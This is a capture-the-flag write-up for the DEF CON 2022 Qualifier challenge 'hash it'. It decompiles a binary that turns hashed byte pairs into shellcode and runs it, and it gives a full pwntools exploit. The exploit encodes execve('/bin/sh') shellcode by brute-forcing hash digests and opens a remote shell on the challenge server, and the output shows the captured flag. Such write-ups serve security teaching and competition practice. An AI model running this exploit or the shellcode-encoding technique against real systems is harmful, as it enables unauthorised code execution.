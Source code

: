 # DEF CON CTF Qualifier 2022

## hash it

[`challenge`](challenge)

Tags: _pwn_ _hash_ _shellcode_ _x86-64_


## Summary

Shellcode runner where each byte is the first digest byte (of one of four popular algorithms) of each pair of hashed bytes, i.e.:

```
shellcode[i] = hash[i & 3](byte[i] << 8 + byte[i+1]).digest[0]
```

## Analysis

### Decompile in Ghidra

```c
undefined4 main(void)
{
  int iVar1;
  void *__src;
  void *__dest;
  code *pcVar2;
  uint uVar3;
  uint uVar4;
  ulong __size;
  undefined local_3d;
  uint local_3c [3];
  
  alarm(10);
  local_3c[0] = 0;
  iVar1 = fread_frontend(stdin,local_3c,4);
  if (iVar1 == 0) {
    local_3c[0] = local_3c[0] >> 0x18 | (local_3c[0] & 0xff0000) >> 8 | (local_3c[0] & 0xff00) << 8 | local_3c[0] << 0x18;
    __size = (ulong)local_3c[0];
    __src = malloc(__size);
    if ((__src != (void *)0x0) && (iVar1 = fread_frontend(stdin,__src,__size), iVar1 == 0)) {
      if (local_3c[0] != 0) {
        uVar3 = 0;
        do {
          uVar4 = uVar3 >> 1;
          iVar1 = FUN_00101320(*(undefined *)((long)__src + (ulong)uVar3),
                               *(undefined *)((long)__src + (ulong)(uVar3 + 1)),&local_3d,
                               (&PTR_EVP_md5_001040a0)[uVar4 & 3]);
          if (iVar1 != 0) {
            return 0xffffffff;
          }
          uVar3 = uVar3 + 2;
          *(undefined *)((long)__src + (ulong)uVar4) = local_3d;
        } while (uVar3 < local_3c[0]);
      }
      __dest = mmap((void *)0x0,(ulong)(local_3c[0] >> 1),7,0x22,-1,0);
      pcVar2 = (code *)memcpy(__dest,__src,(ulong)(local_3c[0] >> 1));
      (*pcVar2)();
      return 0;
    }
  }
  return 0xffffffff;
}
```

The main `do`/`while` loop hashes pairs of chars by calling `FUN_00101320`, and specifying with this table, which hash to use:

```
                     PTR_EVP_md5_001040a0                            XREF[2]:     main:00101181(*), 
                                                                                  main:001011b0(R)  
001040a0 20 50 10        addr       <EXTERNAL>::EVP_md5                              = ??
         00 00 00 
         00 00
                     PTR_EVP_sha1_001040a8                           XREF[1]:     main:001011b0(R)  
001040a8 60 50 10        addr       <EXTERNAL>::EVP_sha1                             = ??
         00 00 00 
         00 00
001040b0 88 50 10        addr       <EXTERNAL>::EVP_sha256                           = ??
         00 00 00 
         00 00
001040b8 80 50 10        addr       <EXTERNAL>::EVP_sha512                           = ??
         00 00 00 
         00 00
```

The first byte of the digest is stored in `local_3d` and that is then used to overwrite our original input:

```c
*(undefined *)((long)__src + (ulong)uVar4) = local_3d;
```

At the end of the loop, the decoded input is copied to a newly `mmap`'d space and executed.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *
import hashlib

binary = context.binary = ELF('./hash_it',checksec=False)

shellcode = asm(f'''
lea rdi, [rip+binsh]
xor rsi, rsi
xor rdx, rdx
mov eax, {constants.SYS_execve}
syscall
binsh: .asciz "/bin/sh"
''')

s = b''
for i, c in enumerate(shellcode):
    for j in range(2**16):
        if i & 3 == 0: m = hashlib.md5()
        if i & 3 == 1: m = hashlib.sha1()
        if i & 3 == 2: m = hashlib.sha256()
        if i & 3 == 3: m = hashlib.sha512()
        m.update(p16(j))
        if m.digest()[0] == c:
            s += p16(j)
            break
    else:
        print('failed')
        sys.exit(1)

if args.REMOTE:
    p = remote('hash-it-0-m7tt7b7whagjw.shellweplayaga.me',31337)
    p.sendlineafter(b'Ticket please: ',b'ticket{TackCormorant970n22:7BX7Fil8VnjawYCOu7riER6pzHaYzLr7ZF3DYF8zJOC8Wr9P}')
    sleep(0.2)
else:
    p = process(binary.path)

p.send(p32(len(s))[::-1])
p.send(s)
p.interactive()
```

Above I'm just creating my shellcode, then encoding it by brute searching which pair of bytes will hash producing a first digest byte that matched my assembled shellcode.

That's it.

> I should have mentioned in the analysis section that we have to first send the length as exactly 4 bytes before sending the encoded shellcode.

Output:

```bash
# ./exploit.py REMOTE=1
[+] Opening connection to hash-it-0-m7tt7b7whagjw.shellweplayaga.me on port 31337: Done
[*] Switching to interactive mode
$ cat flag
flag{TackCormorant970n22:GhmoNCJeGsHN8kJ5TE3Jo7GnGV6F21KN2e8hQT2rrUEbPIsOaPrTWQy3CuB2IaUxA-36MthoyBMJy4Z_2Ht4dw}
```
